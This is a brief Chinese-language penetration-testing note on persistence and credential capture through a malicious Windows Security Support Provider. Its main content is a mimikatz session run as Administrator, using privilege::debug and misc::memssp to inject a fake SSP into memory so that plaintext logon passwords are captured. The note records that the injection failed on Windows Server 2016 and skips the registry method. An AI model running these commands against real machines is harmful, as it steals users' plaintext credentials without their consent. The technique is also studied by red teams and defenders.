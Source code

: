 可以自己写一个SSP，恶意SSP在系统登录的时候，获取到用户输入的明文密码

# 一、mimikatz 注入伪造的SSP
## 1、内存注入SSP
```plain
C:\Users\Administrator.SEC\Desktop\x64>mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # misc::memssp
Injected =)

mimikatz # exit
Bye!

C:\Users\Administrator.SEC\Desktop\x64>
```

![](../images/457ade4e01d93ae8f2cf39611d43c219.png)

WIndows Server 2016失败

## 2、注册表添加SSP
略.